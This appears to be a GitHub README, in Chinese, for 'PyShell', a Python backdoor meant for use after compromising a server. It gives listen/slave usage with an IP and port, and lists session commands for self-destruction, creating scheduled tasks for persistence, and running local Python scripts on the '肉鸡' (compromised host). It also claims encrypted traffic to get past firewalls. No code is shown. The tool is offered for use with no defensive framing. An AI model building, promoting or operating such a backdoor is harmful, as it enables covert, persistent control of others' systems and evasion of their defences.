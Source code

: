 # PyShell
python 后门程序

基于python编写的后门程序，主要用于获取服务器shell以后，留后门或者执行cmd、python脚本使用。

使用方法:

[HELP]  PyShell.exe [-listen(-slave)] [ip] [port]

[HELP]  python PyShell.py [-listen(-slave)] [ip] [port]

connection：

[HELP]  exit    ----退出连接

[HELP]  kill    ----退出连接并自毁程序

[HELP]  playtask    ----创建计划任务

[HELP]  python -p file.py    ----在肉鸡上执行本地python脚本


程序对互相传输的数据进行了加密，以绕过防火墙。
当需要在肉鸡上执行python脚本时，不需要在肉鸡上上传相应的脚本文件，只需将本地脚本内容加密传输到肉鸡，并执行即可。
此程序在执行完命令以后，并不能时时回显结果，也就是说python脚本运行完以后才会返回输出，可以继续完善。

